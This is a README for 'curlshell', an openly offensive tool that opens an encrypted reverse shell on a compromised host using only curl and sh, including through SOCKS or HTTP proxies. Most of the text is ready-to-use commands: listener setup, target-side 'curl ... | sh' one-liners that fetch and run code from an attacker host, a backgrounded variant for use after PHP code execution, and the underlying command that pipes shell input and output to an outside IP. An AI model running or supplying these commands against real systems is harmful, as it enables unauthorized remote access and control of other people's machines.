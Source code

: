# Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell); slightly enhanced)

An encrypted reverse TCP shell through a proxy (using only cURL).

It allows an attacker to access a remote shell (sh) when the remote system can access the Internet via a Proxy only (and no other binaries can be installed or executed). It only needs `curl` and `sh`. The target does not need to have python.


Generate a SSL Certificate (on your system; not the target):
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener (your system)
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | sh
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | sh
```

# Advanced Tricks
Spawn a TTY shell
```sh
stty intr undef ;
./curlshell.py --shell "script -qc '/bin/bash -il' /dev/null" --listen-port 8080 ; stty intr ^C
```

Start the reverse shell as a daemon / background process. This is useful when you have remote execution via PHP:
```sh
# On the target:
(curl -sfL http://1.2.3.4:8080 | sh &>/dev/null &)
```

# How it works
The first cURL request pipes this into a target's shell:
```sh
exec curl -X POST -sN http://217.138.219.220:30903/input \
    | sh 2>&1 | curl -s -T - http://217.138.219.220:30903/stdout
```

This command starts two cURL processes and connects another shell's input and output these two cURL. HTTP's 'chunked transfer' (`-T`) does the rest.

---
More at https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet.
